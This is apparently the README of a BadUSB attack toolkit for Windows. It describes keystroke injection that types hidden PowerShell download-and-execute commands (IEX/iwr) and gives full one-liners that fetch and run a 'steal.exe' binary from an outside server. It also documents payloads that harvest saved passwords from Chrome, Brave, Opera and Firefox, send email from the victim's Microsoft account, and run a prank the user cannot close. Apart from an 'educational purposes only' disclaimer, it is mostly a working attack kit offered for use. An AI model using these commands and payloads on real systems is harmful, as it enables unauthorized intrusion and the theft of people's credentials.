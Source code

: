 > **Disclaimer** \
> This project shall be used for **educational purposes only** \
> I (the author) take no responsibility or liability related to its usage.
> Any illegal activities are strictly forbidden.

> **Note** \
> All code has been tested on and targets Windows and Python==3.10.11


### downloading this repo
This repo requires having [git-cli](https://git-scm.com/downloads) and [Python~=3.10](https://www.python.org/downloads/release/python-31011/) already installed
```
git clone https://github.com/kaliiiiiiiiii/PublicDuckyChallenger
cd PublicDuckyChallenger
```

# Attack flow

<picture>
  <source
    srcset="assets/SimpleAttackFlowDark.png"
    media="(prefers-color-scheme: dark)"
  />
  <source
    srcset="assets/SimpleAttackFlow.png"
    media="(prefers-color-scheme: light), (prefers-color-scheme: no-preference)"
  />
  <img src="assets/SimpleAttackFlow.png" />
</picture>


## Keys pressed by the BadUSB

1. `WIN` + `r` which opens a command prompt
    ![Windows 10 Run Command](assets/Windows10RunCommand.png)
2. type `powershell -w h "IEX(iwr('URL'))"` where `URL` is  the url to a powershell script to execute
3. `ENTER` to run the command

## Programming & Hardware
See instructions for  [EvilCrowCable-Pro](https://github.com/joelsernamoreno/EvilCrowCable-Pro) at [/evil_crow_cable](/evil_crow_cable) \
and for [WHID injector](https://github.com/whid-injector/WHID) (recommended) at [/whid_injector](/whid_injector)


## Keyboard layout
The keyboard layout used for the BadUSB has to match the one chosen at the OS. \
If this is not the case,
some keys which are placed at different locations in the different layouts will output the wrong character.

# Payloads

<picture>
  <source
    srcset="assets/PayloadsDark.png"
    media="(prefers-color-scheme: dark)"
  />
  <source
    srcset="assets/Payloads.png"
    media="(prefers-color-scheme: light), (prefers-color-scheme: no-preference)"
  />
  <img src="assets/Payloads.png" />
</picture>

## URL shortener
Shortens an url with only "safe" characters for the domain [is.gd](https://is.gd)

<details>
<summary>Details</summary>

file: [urlshortener.py](urlshortener.py) \
Characters considered "safe" for keyboards are:
```
    t uiop
asdfghjkl
 xcvbnm
```
[![img.png](assets/keyboard_layouts.png)](https://www.quora.com/What-are-the-most-common-keyboard-layouts-And-why-is-each-layout-designed-as-such)
(from [quora](https://www.quora.com/What-are-the-most-common-keyboard-layouts-And-why-is-each-layout-designed-as-such))

### requirements
```shell
pip install --upgrade aiohttp
```

### usage
```shell
python urlshortener.py https://kaliiiiiiiiii.github.io/rickroll/
# https://is.gd/tuion
```
or
```python
import asyncio
from urlshortener import create_short

async def main():
    url = "https://kaliiiiiiiiii.github.io/rickroll"
    _range = range(5, 10) # range to find urls for
    shorturl = await create_short(url, _range)
    print(shorturl)

if __name__ == "__main__":
    asyncio.run(main())
```

</details>

## Payload 1
Hides visible console window (if available) and downloads and executes `Payload 2`

<details>
<summary>Details</summary>

The code can be found at [github.com/kaliiiiiiiiii/vercel_utils_server/@main/app/pshid/route.ts](https://github.com/kaliiiiiiiiii/vercel_utils_server/blob/main/app/pshid/route.ts), and usage at [github.com/kaliiiiiiiiii/vercel_utils_server#pshid](https://github.com/kaliiiiiiiiii/vercel_utils_server?tab=readme-ov-file#pshid)

</details>

## Payload 2

### Rickroll (powershell)
- opens MS Edge on url
- sets audio volume to max
- user can't close it
- exits after `n` seconds

<details>
<summary>Details</summary>

file: [rickroll.ps1](rickroll.ps1)

#### usage
```shell
powershell -w h "IEX(iwr('is.gd/tuipo'))"
```
(download from this repo) \
or
```shell
powershell ./rickroll.ps1
```

#### configuration
You can change the `url` and `timeout` at [L96-L98](rickroll.ps1#L96-L98)

To create a short direct url to the file, run (replace `YourUserName` accordingly)
```shell
python urlshortener.py "https://raw.githubusercontent.com/YourUserName/PublicDuckyChallenger/master/rickroll.ps1"
```

#### Troubleshooting
If for some reason, you can't see your desktop anymore, perform the following steps:
1. press `CTRL` + `SHIFT` + `ESC`
2. click on `File`-> `Run New Task` in the Task-Manager
3. type `explorer` and press `ENTER`
4. 
</details>

### executable loader

downloads and executes a `.exe` file from `Endpoint 3` 

<details>
<summary>Details</summary>

The code can be found at [github.com/kaliiiiiiiiii/vercel_utils_server/@main/app/exe2ps1/route.ts](https://github.com/kaliiiiiiiiii/vercel_utils_server/blob/main/app/exe2ps1/route.ts), and usage at [github.com/kaliiiiiiiiii/vercel_utils_server#exe2ps1](https://github.com/kaliiiiiiiiii/vercel_utils_server/tree/main?tab=readme-ov-file#exe2ps1)

</details>


## Payload 3

### Password harvester
Steals all available passwords from Opera, Brave, Chrome and Firefox

<details>
<summary>Details</summary>

file: [pass_harvester/password_harvester.py](pass_harvester/password_harvester.py) (requires [firefox_harvester.py](pass_harvester/firefox_harvester.py))

### requirements
```shell
pip install --upgrade aiosqlite pywin32 pycryptodome aiofiles
```

### Usage
```shell
python  ./pass_harvester/password_harvester.py
```
or
```python
import asyncio
from pass_harvester.password_harvester import get_all_creds

async def main():
    all_creds = await get_all_creds()
    # note: creds can contain binary
    print(all_creds)

if __name__ == "__main__":
    asyncio.run(main())
```

</details>

### Edge email
Sends an E-Mail over the microsoft account on the device

<details>
<summary>Details</summary>

file: [edge_email.py](edge_email.py)
> **Note** \
> This currently only supports english and german devices.
> Feel free to add languages at [L48-L78](edge_email.py#L48-L78)

This works
because Microsoft apparently decided
to automatically log in with the microsoft account when creating a new MS-Edge profile

#### requirements
```shell
pip install --upgrade selenium-driverless
```

#### Usage
```shell
 python edge_email.py "test@test.com" "Test", "Hello there!"
```

```shell
> python edge_email.py -h
# usage: edge_email.py [-h] [--headfull] [--cc CC] to subject content
# 
# positional arguments:
#   to          The destination to send the E-Mail to
#   subject     Subject to send the E-Mail with
#   content     The content to send
# 
# options:
#   -h, --help  show this help message and exit
#   --headfull  open a window for edge
#   --cc CC
```
or
```python
import asyncio
from edge_email import write_email

async def main():
    await write_email("test@test.com", "Test", "Hello there!")
    print("E-Mail written")

if __name__ == "__main__":
    asyncio.run(main())
```

</details>



# Build executables

<details>
<summary>Instructions</summary>

> **Note** \
> In order to minimize the executables size,
> you might consider using a python
> [`venv`](https://docs.python.org/3/library/venv.html) and only installing the required packages

### Requirements
```shell
pip install --upgrade pyinstaller
```
\+ all requirements for the python script to build

```shell
python build.py "steal.py"
```

### run
download from this repo
(executes script at [`https://vercelutilsserver.gymthun.com/exe2ps1?url=https://raw.githubusercontent.com/kaliiiiiiiiii/PublicDuckyChallenger/master/dist/steal.exe&arg=example@example.com`](https://vercelutilsserver.gymthun.com/exe2ps1?url=https%3A%2F%2Fraw.githubusercontent.com%2Fkaliiiiiiiiii%2FPublicDuckyChallenger%2Fmaster%2Fdist%2Fsteal.exe&arg=example%40example.com))
```shell
powershell -w h "IEX(iwr('https://vercelutilsserver.gymthun.com/exehid?url=https%3A%2F%2Fraw.githubusercontent.com%2Fkaliiiiiiiiii%2FPublicDuckyChallenger%2Fmaster%2Fdist%2Fsteal.exe&arg=example%40example.com'))"
```
or execute the exe
```shell
.\dist\steal.exe test@test.com
```
or from python
```shell
python steal.py test@test.com
```
```shell
python steal.py -h
# usage: steal.py [-h] [--headfull] [--cc CC] to
# 
# positional arguments:
#   to          The destination to send the E-Mail to
# 
# options:
#   -h, --help  show this help message and exit
#   --headfull  open a window for edge
#   --cc CC
```

### Build write Mail
set up is similar to the other build
```shell
powershell -w h "IEX(iwr('https://vercelutilsserver.gymthun.com/exehid?url=https%3A%2F%2Fraw.githubusercontent.com%2Fkaliiiiiiiiii%2FPublicDuckyChallenger%2Fmaster%2Fdist%2Fwrite_mail.exe&arg=example%40example.com'))"
```

</details>

## Acknowledgments
Inspiration, code snippets, etc.

- [github | neonfury/extract.py (gist)](https://gist.github.com/neonfury/a34a2aadc7c084f08cb046728cd25b54#file-extract-py) | password extractor for Chromium based browsers
- [github | foxtonforensics.com/blog/post/analysing-chrome-login-data](https://www.foxtonforensics.com/blog/post/analysing-chrome-login-data)
- [github | unode/firefox_decrypt/firefox_decrypt.py](https://github.com/unode/firefox_decrypt/blob/2a163faf6c22f62eb0b061fa3c0b317ae2e4a343/firefox_decrypt.py) | password extractor for firefox
- [stackoverflow | change-audio-level-from-powershell](https://stackoverflow.com/a/31751275/20443541)
- [community.spiceworks.com | sending-an-email-from-outlook-via-powershell](https://community.spiceworks.com/t/sending-an-email-from-outlook-via-powershell/938248)
- [learn.microsoft | outlook.mailitem](https://learn.microsoft.com/en-us/office/vba/api/outlook.mailitem)
